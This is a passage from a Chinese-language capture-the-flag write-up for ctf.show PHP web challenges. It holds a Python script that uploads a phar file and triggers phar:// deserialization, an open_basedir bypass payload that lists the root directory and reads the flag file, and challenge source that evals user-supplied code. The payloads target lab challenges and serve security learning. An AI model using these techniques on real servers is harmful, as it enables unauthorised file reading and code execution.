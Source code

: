 接着上传文件

```php
import requests
url="http://5d5c1d43-55e2-45d0-877a-ef8da113932e.challenge.ctf.show/"
 
file={'file':'/tmp/a.phar','content':open('test.phar','rb').read()}
data={'file':'phar:///tmp/a.phar','content':'suibian'}
requests.post(url,data=file)
r=requests.post(url,data=data)
print(r.text)
```

得到flag

## **open_basedir绕过**

### web805

[从0学习bypass open_basedir姿势 - 先知社区](https://xz.aliyun.com/t/10070?time__1311=mq%2BxBD9QDQe4RDBkPoGkFoD%3Dq0QY%2BUx%3Dx&alichlgref=https%3A%2F%2Fwww.google.com.hk%2F#toc-12)

我们看一下phpinfo();

![image-20241202193843967](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412021938090.png)

可以看到命令执行函数都被ban了，那我们读文件可以用readfile或include

查看目录

```bash
1=mkdir('sub');chdir('sub');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(scandir('/'));
```

得到flag

```bash
1=mkdir('sub');chdir('sub');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');readfile('/ctfshowflag');
```

## **php无参RCE**

### web806

https://xz.aliyun.com/t/9360

```php
<?php

# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-19 12:10:55
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-19 13:27:18
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

highlight_file(__FILE__);

if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);
}
?>
```
